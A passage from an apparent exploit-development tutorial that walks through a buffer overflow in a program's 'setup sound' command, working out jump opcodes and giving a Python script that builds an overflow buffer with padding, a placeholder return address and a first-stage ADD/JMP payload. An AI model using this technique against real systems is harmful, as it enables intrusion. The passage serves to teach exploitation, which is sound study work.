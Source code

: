 ![](./img/Chapter12/12.png)

The opcode instructions s(`\x73`) and e(`\x65`), the two first letters of the word "setup", translate to a conditional jump instruction, which seems to jump to a nearby location in our controlled buffer. The next two letters of the word setup, t(`\x74`) and u(`\x75`), translate to a slightly different conditional jump. Therefore, jumping to the EAX register may not work.

Solution: increase the value of EAX by 12(\x0C) bytes as there are 12 characters in the string "setup sound". This can be done using the ADD assembly instruction and then proceed to jump to the memory pointed to by EAX using a JMP instruction

Get the hex opcodes for the instructions: ADD EAX, 12 and JMP EAX

![](./img/Chapter12/13.png)

We get the following hex opcodes: 83C00C and FFE0

Update the script to include the hex opcodes. The NOP instruction (`\x90`) is used for maintain the correct length

```python
padding = "\x41" * 4368
eip = "\x42\x42\x42\x42"
first_stage = "\x83\xc0\x0c\xff\xe0\x90\x90"

buffer = "\x11(setup sound " + padding + eip + first_stage + "\x90\x00#"
```
